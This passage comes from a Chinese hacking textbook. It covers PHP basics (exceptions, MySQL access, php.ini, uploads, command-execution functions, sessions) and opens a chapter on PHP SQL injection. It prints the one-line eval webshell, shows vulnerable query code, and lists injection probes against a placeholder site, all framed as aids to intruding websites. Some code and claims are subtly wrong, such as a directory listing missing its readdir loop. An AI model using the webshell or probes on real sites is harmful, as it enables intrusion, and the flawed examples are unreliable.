因为 B 类是继承于 A 类，所以可以使用操作 `oper1()` 和属性 `$attribute1`，尽管这些操作和属性是在 A 类里声明的。作为 A 的子类，B 具有和 A 一样的功能和数据，此外，B 还可以声明自己的属性和操作。还有一点要注意的是，继承是单向的，也就是说子类可以从父类那里继承特性，而父类却不可以从子类中继承特性，和我们人的生活中也是差不多。

还有上面的 B 类之所以可以访问 A 类中的属性和方法，是因为它们的访问修饰符都是 `public`，而如果在父类中的属性、方法和变量是 `private` 的话，那么它将不可以被子类所继承，它只能够父类自己所使用；而如果访问修饰符是 `protected` 的话，它将在类外部不可见（就像一个 `private` 元素），但是可以被继承。

#### 9.5.3 异常处理简介

既然是面向对象，那还有一个叫做异常处理的机制。异常为以一种可扩展、可维护和面向对象的方式处理错误提供了统一的机制。这样理解比较困难，从字面上来说异常就是指程序发生了异常情况或非正常情况，例如用户输入错误、除数为零、需要处理的文件不存在等，而异常处理自然就是对程序中的异常情况进行相应处理的一个过程。

异常是 PHP5 中的一个新的重要特性。异常处理的基本思想是代码在 `try` 代码块被调用执行，如下代码就是一个示例：

```php
try
{
    // 这里可以编写代码，为 try 的代码块
}
```

如果在 `try` 代码块中出现了错误，我们可以执行一个叫做抛出异常的操作。在一些面向对象语言中，比如 Java，在特定的情况下会自动抛出异常。而在 PHP 中，异常必须手动抛出。我们可以使用如下方式抛出一个异常：

```php
throw new Exception('message', code);
```

`throw` 关键字将触发异常处理机制。它是一个语言结构，而不是一个函数，但必须给它传递一个值。它要求接收一个对象。在最简单的情况下，可以实例化一个内置的 `Exception` 类，这个类就是系统内置用来处理异常情况的类，`Exception` 就是异常处理的类名，像上面的代码一样。这个类需要两个参数：一个消息和一个代码。它们分别表示一个错误消息和错误代码号。不过这两个参数都是可选的。

最后，在 `try` 代码块之后，必须至少给出一个 `catch` 代码块。`catch` 代码块的结构如下所示：

```php
catch (异常处理类名 异常处理对象名)
{
    // 处理异常情况的代码
}
```

可以将多个 `catch` 代码块与一个 `try` 代码块进行关联，这样不同的 `catch` 代码块就可以捕获不同的异常情况了。例如，捕获 `Exception` 类的异常情况，`catch` 代码块可以如下所示：

```php
catch (Exception $e)
{
    // 异常处理代码
}
```

传递给 `catch` 代码块的对象就是导致异常并传递给 `throw` 语句的对象。当产生一个异常时，而 `catch` 代码块有多个的时候，PHP 将自动查询一个匹配的 `catch` 代码块。上面对新手来说确实有点太理论化了，下面我就举一个完整的异常处理的例子。

```php
<?php
try
{
    throw new Exception('出现一个错误', 32);  // 捕获异常
}
catch (Exception $e)                            // 处理异常
{
    echo 'Exception '.$e->getCode().':'.$e->getMessage().'<br>';
    // 输出异常情况
}
?>
```

上面的代码是我们在 `try` 代码块中编写了一个异常处理，当代码运行的时候就会捕获异常，而 `catch` 就是用来处理这个异常的。代码运行后的结果如图 9-8 所示。

> 图 9-8 异常处理的输出结果

上面之所以能够输出异常处理的结果，是因为我们使用 `Exception` 类的内置方法，下面就是该类主要的方法：

- `getCode()`——返回传递给构造函数的代码
- `getMessage()`——返回传递给构造函数的消息
- `getFile()`——返回产生异常代码文件的完整路径
- `getLine()`——返回代码文件中产生异常的代码行号

## 9.6 使用PHP从Web访问MySQL数据库

在第 5 章已经给大家讲解了 MySQL 的一些特性，相信大家已经掌握了。而对于 PHP 的最终经典组合是 PHP+MySQL 了。有了前面的 PHP 和 MySQL 基础之后，本节就给大家讲解 PHP+MySQL 这个经典组合的一些知识。在以后的代码分析中大家会明白，几乎所有的 PHP 系统的后台数据库都是 MySQL。

在任何用于从 Web 访问数据库的脚本中，都应该遵循下面的基本步骤：

- 1) 检查并过滤来自用户的数据。
- 2) 建立一个到适当数据库的连接。
- 3) 对数据库进行各种操作，如查询操作。
- 4) 获取操作数据库的结果。
- 5) 将结果显示给用户。

而我们分析代码找漏洞最重要的就是第一步，寻找代码中那些数据系统没有过滤或过滤不完全，只要出现了没有过滤或过滤不完全的话，八成就会出现安全问题，也就找到了一个漏洞了。

前面我已经给大家介绍了 `magic_quotes_gpc` 指令及 `addslashes()` 和 `stripslashes()` 这两个函数。如果一个安全意识比较高的程序员，他一般都会利用它们来过滤用户输入的数据，常见的过滤代码如下：

```php
if (!get_magic_quotes_gpc())
{
    $id = addslashes($id);
    $name = addslashes($name);
}
```

前面也已经告诉大家了，`get_magic_quotes_gpc()` 函数就是用来检测 `magic_quotes_gpc` 指令是否已经启用了。上面的代码首先是判断 `magic_quotes_gpc` 指令是否启用，如果没有启用的话就用 `addslashes()` 函数对输入的数据进行转义。如果在一个系统中的所有参数都用这些给转义了，那我们找代码的漏洞几乎是没戏了。

### 9.6.1 执行SQL命令

##### (1) 建立与数据库服务器的连接

PHP 为连接 MySQL 提供了新的函数库。这个函数库是 `mysqli`（i 表示改进）。这个函数库用于 MySQL 版本 4 以及以后版本。在版本 4 中，MySQL 添加了一个新的连接协议，其执行速度更快，而且 `mysqli` 允许使用它。`mysqli` 函数库允许使用面向对象或面向过程的语法。在 PHP 版本 4 以及后面的版本，我们可以使用下面的方法来连接 MySQL 数据库。

- ① `@ $db = new mysqli('MySQL数据库服务器的主机名','MySQL用户名','MySQL密码','需要访问的数据库');`

例如，我们要访问本地主机上的 `hack` 数据库，其数据库的用户名为 `username`，密码为 `password`，那么连接 MySQL 数据库的语句为：

```php
@ $db = new mysqli('localhost', 'username', 'password', 'hack');
```

上面的 `$db` 是一个变量名，随便用什么名称都可以，而其前面的 `@` 符号是为了抑制出错信息，防止由系统返回的出错信息直接显示在 Web 浏览器上。

- ② 上面的方法是利用 `mysqli` 函数库的面向对象的方法，我们还可以利用 `mysqli` 的面向过程来连接，如下所示：

```php
@ $db = mysqli_connect('MySQL数据库服务器的主机名', 'MySQL用户名', 'MySQL密码', '需要访问的数据库');
```

例如，还是上面的例子：

```php
@ $db = mysqli_connect('localhost', 'username', 'password', 'hack');
```

利用 `mysqli` 连接好了数据库之后，就可以利用 `mysqli` 函数库的函数了。`mysqli` 的大多数函数都有面向对象接口和过程接口。通常，它们二者的差异在于过程版本的函数名称是以 `mysqli_` 开始的，同时要求传入通过 `mysqli_connect()` 函数获得的资源句柄。

而在 PHP4 以前的版本中，PHP 连接 MySQL 数据库是使用 `mysql` 模块来完成的。通过 `mysql` 功能模块去连接 MySQL 服务器的办法是调用 `mysql_connect()` 函数，它需要三个参数：MySQL 服务器主机名、MySQL 用户名和密码。如果 MySQL 服务器与 PHP 脚本运行在同一台计算机上，可以使用 `localhost` 作为它的主机名。

```php
@ $conn = mysql_connect('localhost', 'username', 'password');
```

大家如果细心的话，可以看到在上面的连接中，没有连接到数据库名，而只是连接了数据库服务器。在与 MySQL 数据库服务器建立连接之后，就可以使用各种数据库函数和执行一些 SQL 命令了。而要对数据库服务器中某个数据库进行操作，最好先使用 `mysql_select_db()` 函数与这个数据库建立一个连接，例如要连接 `hack` 这个数据库：`mysql_select_db('hack');`。

##### （2）执行 SQL 命令

要执行 SQL 命令，在 PHP4 版本中，我们需要把 SQL 作为一个字符串传递给 `mysql_query()` 函数来完成，而如果想访问的不是当前数据库，就需要调用 `mysql_db_query()` 函数来添加 SQL 命令并明确地给出那个数据库的名称。例如，下面的查询语句：

```php
$result = mysql_query("select * from hack");

$result = mysql_db_query("crack", "select * from hack");
```

需要注意的是，通过调用 `mysql_query()` 函数而执行 SQL 命令不得以分号（;）结束，否则会导致 SQL 语法错误。`mysql_query()` 函数可以用来执行任何一种 SQL 命令，比如 `SELECT` 命令（查询）、`INSERT` 命令（插入新记录）、`UPDATE` 命令（修改现有记录）、`DELETE` 命令（删除现有记录）、`CREATE TABLE` 命令（创建新数据表）、`ALTER TABLE` 命令（改变数据表结构）等。

而在 PHP 版本 4 以及后面的版本中，要执行 SQL 命令可以使用 `mysqli_query()` 函数。但是在使用之前，最好建立要执行的 SQL 命令，例如：

```php
$query = "select * from hack where city='长沙'";
```

在这个例子中，我们将在指定的字段 `city` 中查询表 `hack` 中为“长沙”的黑客信息。对于面向对象，我们可以运行如下操作：

```php
$result = $db->query($query);
```

或者我们也可以使用面向过程来进行操作：

```php
$result = mysqli_query($db, $query);
```

上面都是将要运行的 SQL 命令传递给它，在过程版本中，`$db` 是数据库连接。同样，上面的操作能够完成各种 SQL 命令。

对于执行 SQL 命令之后返回的结果，我们还可以对其进行相应的处理。例如要获得执行 SQL 命令结果的行数，在使用面向对象方法中，我们这样来访问：

```php
$num_results = $result->num_rows;
```

当使用过程方法时，函数 `mysqli_num_rows()` 给出了结果的行数，我们可以这样使用它：

```php
$num_results = mysqli_num_rows($result);
```

## 9.7 PHP的高级技术

本章的最后一节，我给大家介绍一些 PHP 的高级技术，当然大部分都是与安全相关的，对大家在分析代码及入侵 PHP 网站是非常有帮助的。

#### 9.7.1 php.ini 文件简介

`php.ini` 文件是 PHP 系统的配置文件，PHP 服务器的各种参数设置都在这个文件里。在前面也多次提到了这个文件。通过 `php.ini` 文件我们可以对 PHP 进行各种设置。一般来说，在我们搭建好了 PHP 服务器后不需要对 `php.ini` 文件进行修改了，在默认的情况下，它已经比较好了，特别是在 PHP5 中，`php.ini` 文件对安全性的设置就更加全面了，所以 PHP5 的安全性比起以前的版本来说有了很大的提高。但是对于我们要查找 PHP 系统中代码的漏洞，就要对 `php.ini` 这个文件中常见的选项比较熟悉。

`php.ini` 配置文件允许用户调整 PHP 多项功能，包括设置文件路径以及目录、改变会话以及数据库参数，以及激活扩展选项等。下面我给大家简单介绍一下 `php.ini` 配置文件中比较重要的一些选项，而对于更加详细和完整的配置大家可以去参考光盘中自带的 PHP 手册。

在 PHP3 中，PHP 的配置文件为 `php3.ini`。不过现在的名字是 `php.ini`。这个文件我们可以用记事本打开。大家如果搭建了 PHP 服务器的话，可以在根目录下找到 `php.ini` 文件来看看。下面开始给大家介绍 `php.ini` 文件中的一些重要参数。更多的参数要去参考 PHP 手册。

- **short_open_tag**：这个参数决定是否允许使用 PHP 代码开始标志的缩写形式（`<? ?>`）。如果要和 XML 结合使用 PHP，可以禁用此选项以便于嵌入使用 `<?xml ?>`。否则还可以通过 PHP 来输出，例如：`<?php echo '<?xml version="1.0"; ?>'; ?>`。如果禁用了，必须使用 PHP 代码开始标志的完整形式（`<?php ?>`）。这个参数有两个结果，`on` 代表允许，`off` 表示禁用。例如 `short_open_tag=on` 表示允许使用缩写形式。注：本指令也会影响到缩写形式 `<?=`，它和 `<? echo` 等价。默认是 `on`。
- **asp_tags**：这个参数决定是否可以使用 ASP 风格的标志 `<% %>`。如果 `asp_tags=on` 则表示可以，而 `off` 表示禁用。默认是 `off`。
- **track_vars**：这个参数有两个选项 `on` 和 `off`，如果 `track_vars=on` 的话，则环境变量、GET、POST、Cookie 和 Server 变量都能够分别在全局关联数组中找到：`$_ENV`、`$_GET`、`$_POST`、`$_COOKIE` 和 `$_SERVER`。注意自 PHP 4.0.3 起，`track_vars` 总是打开的。
- **variables_order**：设定 EGPCS（Environment，GET，POST，Cookie，Server）变量解析的顺序。默认设定为 `"EGPCS"`，即 `variables_order = "EGPCS"`。
- **register_globals**：该参数只有 `on` 和 `off` 两个选项，作用为决定是否将 EGPCS（Environment，GET，POST，Cookie，Server）变量注册为全局变量。自 PHP 4.2.0 开始以后的版本，本选项默认为 `off`。
- **gpc_order**：设定 GET/POST/COOKIE 变量解析的顺序，默认为 `"GPC"`，即 `gpc_order = "GPC"`。举例说，若将其设为 `"GP"`，即 `gpc_order = "GP"`，将会导致 PHP 完全忽略 Cookie 变量，并用 GET 方法的变量覆盖 POST 方法的同名变量。
- **file_uploads**：是否允许 HTTP 文件上传。这个参数有 `on` 和 `off` 两个选项。这个参数从 PHP 4.0 开始启用。
- **upload_tmp_dir**：文件上传时存放文件的临时目录。必须是 PHP 进程所有者用户可写的目录。
- **magic_quotes_gpc**：这个参数大家应该很熟悉，前面已经两次提到了它。其作用是在输入的GET/POST/Cookie 数据中对数据进行转义。php.ini 文件中的参数非常多，这里只是给大家简单介绍一些比较重要且与安全相关的内容。如果要获得当前系统的 PHP 配置信息，还可以使用 `phpinfo()` 函数。更多内容可以参考 PHP 中文手册（在光盘中已收录），或者访问 http://php.chinaunix.net/manual/zh/index.php。

#### 9.7.2 与文件系统和服务器的交互

##### 1. 上传

第二章已经向大家演示了上传漏洞，大家应该知道这个漏洞的危害非常大，利用这个漏洞一般可以直接获得 webshell。接下来给大家介绍一些 PHP 下上传方面的知识，有了这些基础知识后，就能够对上传代码进行漏洞分析了。

在 PHP 中有一个非常有用的功能，就是它支持 HTTP 方式的文件上传。不是使用 HTTP 将服务器上的文件传递到客户端浏览器，而是相反的方向——使用 HTTP 将文件从客户端浏览器传递到服务器。通常使用 HTML 表单界面来实现文件上传。为了实现文件上传功能，需要用到一些专门用于上传的 HTML 语法，这里给大家写一段简单代码来实现客户端功能，代码如下：

```html
<html>
<head>
  <title>Administration - upload new files</title>
</head>
<body>
  <h1>上传文件</h1>
  <form enctype="multipart/form-data" action="upload.php" method="post">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000000">
    上传这个文件: <input name="uploadfile" type="file">
    <input type="submit" value="上传">
  </form>
</body>
</html>


```

上面代码中的表单使用 POST 方法，在 `<form>` 标记中必须设置属性 `enctype="multipart/form-data"`，这样服务器就可以知道上传的文件带有常规表单信息。还必须有一个可以设置上传文件最大长度的表单域，这是一个隐藏域，如下所示：`<input type="hidden" name="MAX_FILE_SIZE" value="1000000">`。而且表单域的名字必须是“MAX_FILE_SIZE”，它的值是允许上传文件的最大长度值（按字节计算），这里设置的是 1000000B（几乎是 1MB）。同时还要指定文件类型，这里是 `<input name="uploadfile" type="file">`。上面的代码运行后的结果如图 9-9 所示，我们点击“浏览...”按钮就可以选择要上传的文件，点击“上传”按钮就将文件提交到服务器上的 `upload.php` 文件进行处理。
图 9-9 客户端上传的界面

客户端文件传到服务器后就要对其进行处理，一般处理文件与 `register_globals` 这个指令有关，好在目前最新版本默认是开启的这个指令，所以这对上传已经没有太大影响了。

在 PHP 脚本中，需要处理的数据保存在超级全局数组 `$_FILES` 中，所以上传的文件也同样保存在全局数组 `$_FILES` 中。目前 `register_globals` 指令是默认开启的，所以我们可以直接访问这个数组。

保存 `$_FILES` 数组中的元素时，将同时保存客户端 HTML 表单中 `file` 标记的名称。在上面的例子中，`file` 标记名称是 `uploadfile`，所以我们上传文件保存在 `$_FILES` 数组中的内容有下面一些：

- 存储在 `$_FILES['uploadfile']['tmp_name']` 变量中的值，就是文件在 Web 服务器中临时存储的位置。
- 存储在 `$_FILES['uploadfile']['name']` 变量中的值，就是我们上传文件的文件名。
- 存储在 `$_FILES['uploadfile']['size']` 变量中的值，就是文件的字节大小。
- 存储在 `$_FILES['uploadfile']['type']` 变量中的值，就是文件的 MIME 类型，例如：`text/plain` 或 `image/gif`。
- 存储在 `$_FILES['uploadfile']['error']` 变量中的值，将是任何与文件上传相关的错误代码。

通过上面的五个变量，服务器可以得到我们上传文件的各种信息，通过它们就可以知道上传文件的位置及名称。接下来就是将上传文件复制到其他有用的地方。因为脚本在执行结束前会将临时文件删除，所以如果要保留上传文件，就必须将文件重命名或移动。通过上面这些步骤就可以完成文件上传了。到这里大家基本掌握了上传基础知识，下一章会教大家如何利用上面的基础知识来查找代码中存在的上传漏洞。

##### （2）目录、文件

PHP 提供了一些函数用于浏览目录，例如我们要浏览 Windows 操作系统下的 WINDOWS 目录，脚本代码如下：

```html
<html>
<head>
<title>浏览 WINDOWS 目录</title>
</head>
<body>
<?php
$current_dir = 'C:/WINDOWS';
$dir = opendir($current_dir);
echo "$file";
closedir($dir);
?>
</body>
</html>
```

上面的脚本使用了三个函数：`opendir()`、`closedir()` 和 `readdir()`。函数 `opendir()` 用于打开所浏览的目录，类似于用 `fopen()` 打开所读取的文件。传递给 `opendir()` 函数的参数不是文件名称而是目录名称，上面的代码是：`$dir = opendir($current_dir);`。目录打开之后，可以通过调用 `readdir($dir)` 从目录中读取文件。完成读取之后，可以通过调用 `closedir($dir)` 来关闭目录。

我们还可以通过调用 `dirname($path)` 函数和 `basename($path)` 函数，分别返回路径的目录部分和文件名部分。使用 `disk_free_space($path)` 函数可返回磁盘（Windows 系统下）或目录所在文件系统（UNIX 系统下）的空余空间。

除了可以读取目录信息外，还可以用 PHP 中的 `mkdir()` 和 `rmdir()` 函数来创建和删除目录。当然，只能在用户具有访问权限的路径上创建和删除目录。`mkdir()` 的使用有一点复杂，它带有两个输入参数：目标目录路径（包括新目录名）和希望在该目录下拥有的访问权限。例如：`mkdir("C:/haha",0777);`。0777 就是访问权限码，默认情况下是 0777，即最大权限。而且在 Windows 操作系统下，PHP4 以后会忽略权限码，成为可选项。`rmdir()` 将删除一个目录，例如：`rmdir("C:/haha");`，不过需要注意要删除的目录必须是空目录。

前面都是目录函数，接下来介绍一些文件函数。`basename()` 获得的是不带目录的文件名，也可以使用 `dirname()` 获得不带文件名的目录名称。`fileatime()` 和 `filemtime()` 将分别返回该文件最近被访问和最近被修改的时间戳。`fileowner()` 和 `filegroup()` 将分别返回用户标识（uid）和组标识（gid）。`chmod(file, permissions)` 用于修改文件权限，例如：`chmod('haha.txt',0777);`，不过需要注意该函数不可以在 Windows 下运行。

同目录一样，我们也可以创建、删除和移动文件。创建文件很简单，使用 `touch()` 函数即可完成，该函数原型如下：

```c
int touch (string file,[int time[,int atime]])
```

如果要创建的文件已经存在，那么它的修改时间将被改成当前时间或者给出的第二个时间参数。如果文件不存在，将创建此文件。也可以使用 `unlink()` 函数删除文件，可以这样使用：`unlink($filename);`。这个函数在旧版本 Windows 系统中不能运行，不过可以使用 `system("del filename.txt")` 来删除该文件。

可以使用 `copy()` 和 `rename()` 来复制和重命名（移动）文件，如下所示：

```php
copy($source_path,$destination_path);
rename($oldfile,$newfile);
```

##### （3）程序执行函数

在 PHP 中，提供了几个函数来完成服务器命令执行功能，这些函数对我们入侵服务器时非常有用。利用这些函数可以完成一些操作系统层面的功能，常见执行函数有下面三个：

- `exec()`

`exec()` 函数原型如下：

```php
string exec(string command [, array &result [, int &return_value]])
```

其中 `command` 就是要执行的命令，其他两个参数是可选的。例如要遍历 D 盘中的目录和文件：`exec("dir D:");`。

`exec()` 函数没有直接输出，只返回命令结果的最后一行。如果以 `result` 传递一个变量，该函数将返回字符串数组，这些字符串代表输出的每一行。如果以 `return_value` 传递一个变量，将获得返回代码。

- `passthru()`

`passthru()` 函数原型如下：

```php
void passthru(string command [, int return_value])
```

`passthru()` 的功能和 `exec()` 一样，不过 `passthru()` 会将结果直接输出并显示在浏览器上。而且这个函数的参数格式与 `exec()` 也是一样的。

- `system()`

`system()` 函数原型如下：

```php
string system(string command [, int return_value])
```

这个函数将执行命令的输出结果显示在浏览器上，并且将每一行的输出向后对齐。这就是它与 `passthru()` 的不同之处。而且这个函数的参数格式与 `exec()` 也是一样的。

最后介绍一下 PHP 中环境变量的使用。PHP 提供了两个函数：`getenv()` 和 `putenv()`。其中 `getenv()` 能够获取环境变量值，而 `putenv()` 能够设置环境变量值。不过要注意，这里所说的环境变量值，是指运行 PHP 的服务器上的环境变量值。

运行 `phpinfo()` 函数可以获得 PHP 所有环境变量列表。不过也可以使用 `getenv()` 来获取，例如 `getenv("HTTP_REFERER")` 会返回用户来到当前页之前的上一页面 URL。

我们也可以调用 `putenv()` 来设置环境变量，如下所示：

```php
$home="/home/blank";
putenv("HOME=$home");
```

#### 9.7.3 会话控制

会话控制在前面讲 ASP 的时候就已经提到过了，如 cookie 就属于其中一种技术。在 PHP4 及以后版本中，PHP 自身包含了会话控制函数。PHP 的会话是通过唯一的会话 ID 来驱动的，会话 ID 是一个加密的随机数字。它由 PHP 生成，在会话生命周期中都会保存在客户端。它可以保存在用户机器里的 cookie 中，或者通过 URL 在网络上传递。

在 PHP 中，可以使用 `setcookie()` 函数手动设置 cookie，该函数原型如下：

```php
bool setcookie(string name [, string value [, int expire [, string path [, string domain [, int secure]]]]])
```

`setcookie()` 的参数详解如图 9-10 所示。

| 参数 | 说明 | 举例 |
|---|---|---|
| *name* | Cookie 的名字。 | 使用 `$_COOKIE['cookiename']` 调用名为 cookiename 的 cookie。 |
| *value* | Cookie 的值。此值保存在客户端，不要用来保存敏感数据。 | 假定 `name` 是 `cookiename`，可以通过 `$_COOKIE['cookiename']` 取得其值。 |
| *expire* | Cookie 过期时间。这是 Unix 时间戳，即从 Unix 纪元开始的秒数。通常用 `time()` 函数加上秒数来设定 cookie 失效期，或者用 `mktime()` 来实现。 | `time()+60*60*24*30` 将设定 cookie 30 天后失效。如果未设定，cookie 将在会话结束后（一般是浏览器关闭）失效。 |
| *path* | Cookie 在服务器端的有效路径。 | 如果设为 `'/'`，cookie 在整个 domain 内有效；如果设为 `'/foo/'`，cookie 只在 domain 下的 `/foo/` 目录及其子目录内有效，例如 `/foo/bar/`。默认值为设定 cookie 的当前目录。 |
| *domain* | 该 cookie 有效的域名。 | 要使 cookie 在如 `example.com` 域名下的所有子域都有效，该参数应设为 `.example.com`。如果设为 `www.example.com`，就只在 `www` 子域内有效。 |
| *secure* | 指明 cookie 是否仅通过安全的 HTTPS 连接传送。当设成 TRUE 时，cookie 仅在安全连接中被设置。默认值为 FALSE。 | `0` 或 `1` |

图 9-10 `setcookie()` 的参数详解

如果按如下方式设置一个 cookie：

```php
setcookie('mycookie', 'value');
```

当我们访问该站点的下一页（或者重载当前页）时，可以通过 `$_COOKIE['mycookie']` 或 `$HTTP_COOKIE_VARS["mycookie"]` 来访问这个 cookie。而当 `register_globals=on` 时，可以直接通过 `$mycookie` 来访问。

我们可以通过函数 `session_get_cookie_params()` 查看由会话控制设置的 cookie 内容。它将返回包含元素 `lifetime`、`path`、`domain` 和 `secure` 的相关数组。也可以使用 `session_set_cookie_params($lifetime, $path, $domain [, $secure]);` 来设置会话 cookie 参数。

在 PHP 中要使用会话功能，首先必须开始一个会话，代码中通常调用 `session_start()` 函数来开始会话；还可以在 `php.ini` 文件中将参数 `session.auto_start` 设置为 `on`，PHP 就会自动启用会话。

自 PHP4.1 版本以后，会话变量保存在超级全局数组 `$_SESSION` 中，所以可以利用 `$_SESSION` 来创建会话变量，只需要在这个数组中设置一个元素，如下所示：

```php
$_SESSION['myvar']=5;
```

当使用完一个会话变量后，可以将其注销。通过注销 `$_SESSION` 数组的适当元素，可以直接注销变量，如：`unset($_SESSION['myvar']);`。注销后再调用 `session_destroy()` 函数来清除会话 ID，如：`session_destroy();`。

通过会话控制我们可以用它来进行身份认证，一般采用 session。下一章将向您演示如何绕过它们的验证进行入侵。

#### 9.7.4 eval() 函数及一句话木马

第二章中大家已经接触了 PHP 一句话木马，大家都知道 PHP 的一句话木马是 `<?php eval($_POST[cmd]);?>`。当这段代码被插入到服务器上后，我们提交木马代码到服务器时，`$_POST` 就会接收 `cmd` 参数传过来的数据，而 `eval()` 函数的功能就是执行我们提交的大马代码，这样木马就在服务器上执行了，成功获得 webshell。

下面给大家详细讲一下 `eval()` 这个函数。这个函数可以在许多不同情况下使用。

例如，我们可以在数据库里存储一段代码，以便以后可以检索并求值。`eval()` 函数最常见的用法就是系统模块化，我们可以从数据库中载入 HTML、PHP 和纯文本混合内容。模板系统可以对这些内容进行格式化，并通过 `eval()` 函数执行任何 PHP 代码。这里大家要注意，是执行任何 PHP 代码，这就是为什么我们用这个函数来编写一句话木马。它能够执行任何获得的 PHP 代码，而这个“获得”就是通过 `$_POST`，`cmd` 就是接收来自客户端代码的参数。

到这里，我们的 PHP 基础就讲完了。上面的内容确实比较枯燥，但这是必须要学的。下一章会带领大家如何寻找 PHP 系统中的各种漏洞，而要寻找这些漏洞都和上面的知识息息相关。上面的内容都是我精心挑选出来的，大部分都是与黑客相关的基础知识。掌握它们就可以很快找出代码中的各种漏洞。还有上面涉及到比较多的函数，我并没有讲得非常清楚，这是因为光盘中的 PHP 中文手册已经包含了 PHP 的一切，如果哪个函数没有理解可以直接查，里面有最详细的解释。

**声明：本章中部分 PHP 的基础知识参考了由机械工业出版社出版的《PHP 和 MySQL Web 开发》，该书由 Luke Welling、Laura Thomson 著；以及由人民邮电出版社出版的《MySQL 5 权威指南》，该书由 Michael Kofler 著。**

## 第十章 PHP 程序常见漏洞

从本章你可以学到如下几点：

- 1. PHP 程序中的注射、跨站漏洞
- 2. PHP 上传漏洞代码分析
- 3. 文件包含漏洞
- 4. 文件泄露漏洞
- 5. PHP 木马相关知识

第二章中介绍了 PHP 下的各种黑客技术，相信已经对 PHP 下的常见黑客技术都有了一个基本的了解，至少在漏洞的利用和操作上有了一定的认识。而在第九章中，为大家介绍了 PHP 的基础知识，对于 PHP 中与安全相关的知识点基本上都讲解到了。所以本章就是在前面这两章的基础上，开始 PHP 程序漏洞的分析与利用之旅！

学习完了本章，我们就能够分析 PHP 系统中的漏洞了。有的时候，我们虽然发现了 PHP 系统中的漏洞。不过很多情况下，由于 php.ini 的配置及服务器相关设置，就算你发现了程序的漏洞，利用也不一定成功，需要有很多的条件，这就是为什么 PHP 要比 ASP 安全的原因之一。所以在分析程序漏洞的时候，我们不仅仅只在程序的漏洞上，还会涉及到一些配置，因为它们经常是漏洞是否利用成功的关键。

在 PHP 环境中，现在不仅仅有很多网站采用的后台数据库是 MySQL，而且越来越多的网站采用的是文本数据库。这两种数据库在有的时候利用上也是存在一定差异的，在后面会具体讲解。

### 10.1 PHP 注射漏洞

对于脚本来说，注入漏洞是最为常见的，也是最大的漏洞之一。在 PHP 的环境中，同样存在注入漏洞，不过我们一般更加习惯称之为注射漏洞。

前面对于注射（注入）漏洞已经多次在 ASP 程序中提及到了，虽然这里是 PHP 环境，但是它们出现的本质原因都是因为程序没有对我们输入的参数进行过滤就进行查询数据库操作了。虽然在第 2 章中介绍手工注入的时候，把注入是从数据库的角度上划分的，但是仍然与所处的语言环境有一定关系。

下面我们来看一下 PHP 程序中最典型的注射漏洞代码，如下所示：

```php
$id=$_GET["id"];
$query="SELECT * FROM my_table where id='".$id."'"; // 很经典的 SQL 注入漏洞
$result=mysql_query($query);
```

参数 `$id` 通过 `$_GET` 方式访问表单域 `id` 中的内容，利用它可以获得我们输入 `id` 参数的值。而 `$id` 在没有经过任何过滤情况下，就用字符串连接符（.）连接到了数据库查询代码中，然后就执行了数据库查询。所以对于参数 `id`，我们可以构造任何数据，从而出现了经典的注射漏洞。

我们已经知道，在 PHP 中目前获得客户端输入的数据不仅仅只有 `$_GET` 这一种方式，还可以采用 `$_POST` 和 `$_REQUEST` 方式获得数据，所以对于上面的 `$id=$_GET["id"];` 还可以改成 `$id=$_POST["id"];` 或 `$id=$_REQUEST["id"];`，不过它们依然存在注射漏洞，只是获取客户端数据的方式不同而已。

这里，我们假设参数 `id` 的正确值为 10。当我们只提交 `id=10` 时，查询语句 `$query` 就等于 `SELECT * FROM my_table where id=10`，执行结果就是返回 `id=10` 所包含的信息。当然，我们当然不会那么听话，只输入 `id=10`。比如我们输入 `id=10'`，则 `$query` 就等于 `SELECT * FROM my_table where id=10'`。因为我们知道在数据库中的参数 `id` 是不可能有一个 `10'` 的值，所以执行的结果肯定出错，这也是为什么如果存在注入漏洞的时候我们输入单引号页面就会返回错误的原因，这个时候就可以初步判定它存在注入漏洞。

而如果我们输入 `id=10 and 1=1` 的话，则 `$query` 就等于 `SELECT * FROM my_table where id=10 and 1=1`，前面大家已经知道了 `and` 的运算规则了，因为 `SELECT * FROM my_table where id=10` 执行的结果为真，`1=1` 也为真，那么真 `and` 真运算之后还是真，所以添加输入 `and 1=1` 返回的结果依然为真。可是我们输入 `id=10 and 1=2` 呢？`$query` 就等于 `SELECT * FROM my_table where id=10 and 1=2`，因为 `SELECT * FROM my_table where id=10` 为真，`1=2` 为假，即真 `and` 假，所以执行的结果为假。这也是为什么添加输入 `and 1=2` 返回的结果为错误的原因。所以通过单引号、`and 1=1`、`and 1=2` 我们就可以判断一个网站是否存在注射漏洞。

在 ASP 中介绍注入漏洞的时候虽然把注入分得比较细，但总的来说是分为数字型和字符型两种。而在 PHP 中的注射方式也划分为数字型和字符型两种，在这点上它们是相通的。下面也就从数字和字符两个角度来详细讲解 PHP 下的注射攻击。

### 10.1.1 PHP 下的数字型注射漏洞代码分析

数字型的参数几乎在每一个 PHP 系统都是存在的，而又以在 URL 中出现的最为频繁。如果系统没有对数字型参数进行有效的检测的话，就会发生注射问题。下面我们来看看一个在数字型参数中常见的注射代码，如下所示：

```php
$blogid=$_REQUEST[blogid];
if (!isset($blogid)){
    $blogid=1;
}
$query_sql="SELECT * FROM article where id='".$blogid."'";
$result=mysql_query($query_sql);
$pageurl = './?blogid='.$blogid;
```

参数 `blogid` 在通过 `$_REQUEST` 方式获得其数据之后，用 `isset()` 函数判断是否存在这个参数值。如果不存在，则把 `$blogid` 的值设置等于 1。而后就放入到了数据库查询语句中，执行该查询，最后在 URL 中输出该参数下的信息。

上面的参数 `blogid` 仅仅只是验证了其是否存在，如果存在的话，就放入数据库中进行查询，而并没有检测 `blogid` 中我们到底输入了什么数据，即没有检测输入数据的合法性，这就意味着我们只要输入数据就会执行数据库查询操作。这就引发了注射漏洞的出现，利用该参数我们可以查询数据库中的任何信息。

假设使用这个系统的网站为 `http://www.xxx.com/`，其后台数据库是 MySQL，出现注射漏洞的页面为 `index.php`，且 `$blogid` 的值等于 5。那么存在注射漏洞的 URL 地址为：

`http://www.xxx.com/index.php?$blogid=5`。当我们输入  
`http://www.xxx.com/index.php?$blogid=5 and 1=1` 和  
`http://www.xxx.com/index.php?$blogid=5 and 1=2`  
就可以判断出这个系统存在注入，在前面已经为大家介绍了。

